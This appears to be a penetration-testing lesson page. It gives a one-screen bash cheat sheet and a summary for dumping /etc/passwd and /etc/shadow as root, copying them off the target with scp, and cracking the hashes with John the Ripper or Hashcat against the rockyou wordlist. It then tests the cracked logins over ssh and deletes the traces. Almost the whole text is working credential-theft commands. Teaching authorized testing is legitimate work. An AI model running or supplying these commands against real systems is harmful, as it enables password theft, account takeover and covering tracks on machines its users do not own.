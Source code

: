 # Minimal cheat sheet (one-screen flow)
```bash
# 1) Dump (target, as root/sudo)
sudo sh -c 'umask 077; cat /etc/passwd > /tmp/passwd; cat /etc/shadow > /tmp/shadow'

# 2) Exfil (attacker)
scp USER@TARGET:/tmp/passwd .
scp USER@TARGET:/tmp/shadow .

# 3A) John route
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --show unshadowed.txt

# 3B) Hashcat route
awk -F: 'length($2)>0 && $2 !~ /^[*!]$/{print $2}' shadow > hashes.txt
head -n1 hashes.txt   # decide mode: $6$->1800, $5$->7400, $1$->500, $2b$->3200
hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat --show -m 1800 hashes.txt

# 4) Validate (within scope)
ssh USER@TARGET

# 5) Cleanup
sudo rm -f /tmp/passwd /tmp/shadow        # on target
rm -f passwd shadow unshadowed.txt hashes.txt  # on attacker
```

# Summary
This lesson walks through authorized collection of Linux password hashes from /etc/passwd and /etc/shadow, preparing them for cracking, and recovering plaintext passwords. You:
- Dump the files with root/sudo, transfer them off-host, and combine them using unshadow for John or extract the hash field for Hashcat.
- Identify the hash type by its $id$ and select the appropriate cracking mode.
- Run wordlist-based cracking (rockyou + rules), then review cracked credentials and test access within scope.
- Document findings and clean up artifacts to maintain operational security.